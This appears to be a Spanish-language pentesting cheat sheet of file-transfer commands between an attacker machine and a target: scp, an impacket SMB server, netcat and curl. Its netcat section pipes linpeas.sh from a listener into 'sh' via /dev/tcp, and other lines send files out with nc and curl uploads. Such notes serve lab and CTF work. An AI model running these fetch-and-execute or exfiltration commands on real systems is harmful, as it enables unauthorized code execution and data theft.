 https://blog.ropnop.com/transferring-files-from-kali-to-windows/#smb

# SCP
Desde máquina remot a local
```
scp -r nico@192.168.1.81:/nico/homer.jpg homer.jpg
```

# SMB
Crear servidor smb
```
smbserver.py <nombre del directorio> <lugar del directorio>
---
smbserver.py lepra .
```

# NC
De local a remoto
```
# Máquina local
sudo nc -q 5 -lvnp 8888 < linpeas.sh
---
# Máquina remota
cat < /dev/tcp/192.168.0.5/8888 | sh
```
De remoto a local
```
# Máquina local
nc -lvnp 1337 > archivo.py
---
# Máquina remota
nc 192.168.1.23 1337 < archivo.py
```


# Curl 
```
curl --upload-file <archivo> http://192.168.1.93
```